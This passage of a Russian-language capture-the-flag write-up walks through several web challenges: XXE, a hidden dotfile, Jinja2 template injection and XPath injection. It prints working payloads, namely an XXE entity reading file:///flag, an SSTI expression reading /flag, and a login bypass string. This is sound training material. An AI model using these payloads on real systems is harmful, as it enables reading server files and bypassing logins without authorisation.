 ![](https://i.imgur.com/tl7qFao.png)

Видими флаг

![](https://i.imgur.com/Ke3KYxh.png)

## XXE
Здесь нужно добавить внешнюю сущность через DTD
```
<!DOCTYPE foo [<!ENTITY a SYSTEM "file:///flag"> ]>
<creds>
<user>test&a;</user>
<pass>pass</pass>
</creds>
```
Получаем флаг: 
![](https://i.imgur.com/4dJRdB7.png)

## Hide file
В задании сказано найти скрытый файл, а в линухе такой файл начинается с точки.
Сходил я в robots.txt, нашел директорию /hide
![](https://i.imgur.com/6kQ8xqh.png)
Пошел в нее, но файла не вижу, потому что он скрыт, но к нему можно обратиться
![](https://i.imgur.com/rTDVg8u.png)
![](https://i.imgur.com/AyGVmbc.png)

## SSTI
![](https://i.imgur.com/yfW2vCD.png)

По табличке определил что шаблонизатор либо Jinja2 либо Twig, напоролся на exception

![](https://i.imgur.com/ER2I92H.png)

Понял что все таки Jinja2
Сходил на payload of the things, Нашел нужный Payload
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/flag').read() }}
```
![](https://i.imgur.com/prUmU1X.png)

## XPath Injection

Как и с sql, внедряемся через payload, только в login перед кавычкой пишем логин Admin
```
' or '1' = '1 
```
![](https://i.imgur.com/9rBQLLW.png)
